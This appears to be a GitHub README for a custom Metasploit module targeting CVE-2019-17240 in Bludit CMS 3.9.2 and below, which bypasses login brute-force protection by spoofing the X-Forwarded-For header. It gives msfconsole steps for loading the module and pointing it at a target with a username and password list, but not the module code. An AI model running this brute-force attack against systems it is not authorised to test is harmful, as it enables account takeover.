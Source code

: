 This is a custom Metasploit module for exploiting a vulnerability in Bludit CMS v3.9.2 and below. The vulnerability allows bypassing the anti-brute force mechanism by manipulating HTTP headers (`X-Forwarded-For`).

##  CVE Reference
- **CVE-2019-17240**
- [Original Write-up](https://rastating.github.io/bludit-brute-force-mitigation-bypass/)
- [Patch](https://github.com/bludit/bludit/pull/1090)

##  Files Included
- `bludit_bypass.rb`: The Metasploit exploit module

##  Usage

1. Copy `bludit_bypass.rb` into your local Metasploit modules folder, e.g.:
   ```bash
   cp bludit_bypass.rb ~/.msf4/modules/exploits/custom/
   ```

2. Reload Metasploit modules:
   ```bash
   msfconsole
   reload_all
   ```

3. Use the module:
   ```bash
   use exploit/custom/bludit_bypass
   set RHOSTS <target-ip>
   set TARGETURI /
   set BLUDITUSER <username>
   set PASSWORDS /path/to/passwords.txt
   run
   ```

##  Authors
- `rastating` — original discovery
- `0ne-nine9` — Metasploit module adaptation

##  Disclaimer
This code is provided for educational purposes only. Unauthorized use against systems you do not own is illegal.

